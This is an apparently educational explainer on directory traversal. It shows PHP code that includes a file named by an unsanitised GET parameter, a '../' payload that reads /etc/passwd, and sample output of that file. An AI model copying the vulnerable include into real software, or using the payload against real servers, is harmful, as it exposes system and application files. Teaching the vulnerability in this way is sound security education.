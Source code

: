 Directory Traversal is a vulnerability where an application takes in user input and uses it in a directory path.

Any kind of path controlled by user input that isn't properly sanitized or properly sandboxed could be vulnerable to directory traversal.

For example, consider an application that allows the user to choose what page to load from a GET parameter.


```
<?php
    $page = $_GET['page']; // index.php
    include("/var/www/html/" . $page);
?>
```

Under normal operation the page would be `index.php`. But what if a malicious user gave in something different?


```
<?php
    $page = $_GET['page']; // ../../../../../../../../etc/passwd
    include("/var/www/html/" . $page);
?>
```

Here the user is submitting `../../../../../../../../etc/passwd`.

This will result in the PHP interpreter leaving the directory that it is coded to look in ('/var/www/html') and instead be forced up to the root folder.


```
include("/var/www/html/../../../../../../../../etc/passwd");
```

Ultimately this will become `/etc/passwd` because the computer will not go a directory above its top directory.

Thus the application will load the `/etc/passwd` file and emit it to the user like so:


```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
```

This same concept can be applied to applications where some input is taken from a user and then used to access a file or path or similar. This vulnerability very often can be used to leak sensitive data or extract application source code to find other vulnerabilities.